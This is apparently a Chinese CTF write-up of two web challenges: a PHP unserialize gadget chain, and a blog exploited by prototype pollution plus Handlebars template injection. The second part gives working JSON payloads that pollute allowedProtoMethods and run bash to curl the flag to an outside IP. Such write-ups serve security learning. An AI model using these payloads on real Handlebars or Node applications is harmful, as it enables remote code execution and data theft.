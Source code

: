 ## Web
## PHP_unserialize_pro
源码
```php
<?php
    error_reporting(0);
    class Welcome{
        public $name;
        public $arg = 'welcome';
        public function __construct(){
            $this->name = 'Wh0 4m I?';
        }
        public function __destruct(){
            if($this->name == 'A_G00d_H4ck3r'){
                echo $this->arg;
            }
        }
    }
 
    class G00d{
        public $shell;
        public $cmd;
        public function __invoke(){
            $shell = $this->shell;
            $cmd = $this->cmd;
            if(preg_match('/f|l|a|g|\*|\?/i', $cmd)){
                die("U R A BAD GUY");
            }
            eval($shell($cmd));
        }
    }
 
    class H4ck3r{
        public $func;
        public function __toString(){
            $function = $this->func;
            $function();
        }
    }
 
    if(isset($_GET['data']))
        unserialize($_GET['data']);
    else
        highlight_file(__FILE__);
?>
```

思路
`__construct() -> __destruct() -> __toSrting() -> __invoke()`


### meow-blog

 原型链污染，获取admin权限
 
![](attachments/Pasted%20image%2020231017203527.png)

`{"username":"wum0nster","password":"123","submit":[{"__proto__":{"user":{"id":1,"username":"admin","style":"wum0nster"}}},"1"]}`

模板注入漏洞点

![](attachments/Pasted%20image%2020231018083914.png)

![](attachments/Pasted%20image%2020231018084420.png)

[Prototype Pollution in handlebars · CVE-2021-23383 · GitHub Advisory Database](https://github.com/advisories/GHSA-765h-qjxv-5f44)

[Remote Code Execution (RCE) in handlebars | CVE-2021-23369 | Snyk](https://security.snyk.io/vuln/SNYK-JS-HANDLEBARS-1056767)

```js
<script src="https://cdn.jsdelivr.net/npm/handlebars@latest/dist/handlebars.js"></script> 
<script> 
// compile the template 
var s = ` 
{{#with (__lookupGetter__ "__proto__")}} 
{{#with (./constructor.getOwnPropertyDescriptor . "valueOf")}} 
{{#with ../constructor.prototype}} 
{{../../constructor.defineProperty . "hasOwnProperty" ..}} 
{{/with}} 
{{/with}} 
{{/with}} 
{{#with "constructor"}} 
{{#with split}} 
{{pop (push "alert('Vulnerable Handlebars JS when compiling in strict mode');")}} 
{{#with .}} 
{{#with (concat (lookup join (slice 0 1)))}} 
{{#each (slice 2 3)}} 
{{#with (apply 0 ../..)}} 
{{.}} 
{{/with}} 
{{/each}} 
{{/with}} 
{{/with}} 
{{/with}} 
{{/with}} 
`; 
var template = Handlebars.compile(s, { 
strict: true 
}); 
// execute the compiled template and print the output to the console console.log(template({})); 
</script>
```

[运行时参数 | Handlebars中文文档 | Handlebars中文网 (handlebarsjs.cn)](https://www.handlebarsjs.cn/api-reference/runtime-options.html#%E6%8E%A7%E5%88%B6%E5%8E%9F%E5%9E%8B%E8%AE%BF%E9%97%AE%E7%9A%84%E9%80%89%E9%A1%B9)

在题目环境中升级到了4.7.7，禁用原本的一些键

![](attachments/Pasted%20image%2020231018093750.png)



对应函数[handlebars.js/lib/handlebars/internal/proto-access.js at 1fc4ef09c1ac0ffb4c0f88ca685f44d1e0f32f89 · handlebars-lang/handlebars.js (github.com)](https://github.com/handlebars-lang/handlebars.js/blob/1fc4ef09c1ac0ffb4c0f88ca685f44d1e0f32f89/lib/handlebars/internal/proto-access.js#L27)

```JS
export function createProtoAccessControl(runtimeOptions) {
  let defaultMethodWhiteList = Object.create(null);
  defaultMethodWhiteList['constructor'] = false;
  defaultMethodWhiteList['__defineGetter__'] = false;
  defaultMethodWhiteList['__defineSetter__'] = false;
  defaultMethodWhiteList['__lookupGetter__'] = false;

  let defaultPropertyWhiteList = Object.create(null);
  // eslint-disable-next-line no-proto
  defaultPropertyWhiteList['__proto__'] = false;

  return {
    properties: {
      whitelist: createNewLookupObject(
        defaultPropertyWhiteList,
        runtimeOptions.allowedProtoProperties
      ),
      defaultValue: runtimeOptions.allowProtoPropertiesByDefault,
    },
    methods: {
      whitelist: createNewLookupObject(
        defaultMethodWhiteList,
        runtimeOptions.allowedProtoMethods
      ),
      defaultValue: runtimeOptions.allowProtoMethodsByDefault,
    },
  };
}
```

对`allowedProtoMethods`做污染设置为true

```JS
{{#with (__lookupGetter__ "__proto__")}} 
{{#with (./constructor.getOwnPropertyDescriptor . "valueOf")}} 
{{#with ../constructor.prototype}} 
{{../../constructor.defineProperty . "hasOwnProperty" ..}} 
{{/with}} 
{{/with}} 
{{/with}} 
{{#with "constructor"}} 
{{#with split}} 
{{pop (push \"eval('process.binding(\\'spawn_sync\\').spawn({file:\\'/bin/bash\\',args: [\\'/bin/bash\\',\\'-c\\',\\'curl http://49.232.206.37:23456/`cat /flag`\\'],stdio: [{type:\\'pipe\\',readable:!0,writable:!1},{type:\\'pipe\\',readable:!1,writable:!0},{type:\\'pipe\\',readable:!1,writable:!0}]});');\")}}
{{#with .}} 
{{#with (concat (lookup join (slice 0 1)))}} 
{{#each (slice 2 3)}} 
{{#with (apply 0 ../..)}} 
{{.}} 
{{/with}} 
{{/each}} 
{{/with}} 
{{/with}} 
{{/with}} 
{{/with}} 
```

poc

```json
{"submit":[{"__proto__":{"user":{"id":"c23d123d-e123-444e-a69f-9e69b285473e","username":"admin"},"allowedProtoMethods":{"__lookupGetter__":true,"constructor":true,"valueOf":true}}},"1"],"style":"{{#with (__lookupGetter__ \"__proto__\")}}{{#with (./constructor.getOwnPropertyDescriptor . \"valueOf\")}}{{#with ../constructor.prototype}}{{../../constructor.defineProperty . \"hasOwnProperty\" ..}}{{/with}}{{/with}}{{/with}}{{#with \"constructor\"}}{{#with split}}{{pop (push \"eval('process.binding(\\'spawn_sync\\').spawn({file:\\'/bin/bash\\',args: [\\'/bin/bash\\',\\'-c\\',\\'curl http://49.232.206.37:23456/`cat /flag`\\'],stdio: [{type:\\'pipe\\',readable:!0,writable:!1},{type:\\'pipe\\',readable:!1,writable:!0},{type:\\'pipe\\',readable:!1,writable:!0}]});');\")}}{{#with .}}{{#with (concat (lookup join (slice 0 1)))}}{{#each (slice 2 3)}}{{#with (apply 0 ../..)}}{{.}}{{/with}}{{/each}}{{/with}}{{/with}}{{/with}}{{/with}}"}
```


![](attachments/Pasted%20image%2020231018110925.png)